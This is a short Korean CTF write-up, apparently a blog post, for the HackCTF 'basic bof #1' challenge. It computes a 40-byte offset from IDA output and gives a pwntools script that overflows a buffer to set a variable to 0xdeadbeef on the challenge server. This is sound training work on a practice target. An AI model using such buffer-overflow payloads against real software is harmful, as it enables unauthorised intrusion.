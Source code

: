 ```yaml
---
layout: post
title: "hackctf-basic bof #1"
categories: [hackctf]
tags: [pwnable]
redirect_from:
 - /2019/08/03/
---
```

IDA를 먼저 보자.

<img width="384" alt="캡처" src="https://user-images.githubusercontent.com/51374792/62383735-72a4df00-b58b-11e9-905b-a154cd36f94a.PNG">

s만 입력받아 v5까지 영향을 주어야 하는 코드다.

v5가 deadbeef가 되도록 해 주면 되겠다.

0x34-0xC=40

페이로드는 40개의 값과 리틀 엔디안 deadbeef 정도면 되겠다.

```python
#!/usr/bin/python
from pwn import *

p=remote("ctf.j0n9hyun.xyz",3000)
code="A"*40+"\xef\xbe\xad\xde"

p.sendline(code)

p.interactive()
p.close()
```